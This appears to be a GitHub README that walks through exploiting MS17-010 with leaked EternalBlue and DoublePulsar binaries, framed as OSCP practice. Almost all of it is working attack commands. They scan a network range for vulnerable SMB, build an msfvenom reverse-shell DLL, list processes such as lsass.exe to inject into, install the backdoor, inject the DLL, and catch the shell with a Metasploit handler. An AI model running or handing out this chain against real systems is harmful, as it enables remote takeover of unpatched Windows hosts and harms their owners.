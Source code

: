 # Eternal-pulsar (ms17-010)

Eternalblue-Doublepulsar without Metasploit and Python ([FuzzBunch_notes](https://github.com/sailay1996/eternal-pulsar/blob/master/FuzzBunch-notes/README.md))<br> 
base on shadowbroker's exploit ([fuzzbunch](https://github.com/misterch0c/shadowbroker))
- you can run it on windows or linux (need wine)

### Find smb vulns in a network range.
`nmap -A -p 139,445 10.1.1.1-254 -oG smb_service.txt`

`cat smb_service.txt | grep -i windows | cut -d" " -f2 > smb_machines.txt`

`for vul in $(find / -name smb*vuln*.nse | cut -d"/" -f 6); do nmap -v -p 139,445 --script=$vul -iL smb_machines.txt -oN smb_vulns_$vul.txt; done`

### Create payload with msfvenom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>

### EternalBlue & Doublepulsar  (--help )

[help.txt](https://github.com/sailay1996/eternal-pulsar/blob/master/help.txt)


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt` <br>

![test1](https://github.com/sailay1996/eternal-pulsar/blob/master/img/2.jpg)


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`
<br>
![test2](https://github.com/sailay1996/eternal-pulsar/blob/master/img/1.jpg)

### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!
![test3](https://github.com/sailay1996/eternal-pulsar/blob/master/img/3.jpg)

Thanks for watching here !!! <br>
I hope this will help you in your oscp journey .
<br><br>
#### [@404death](https://twitter.com/404death)
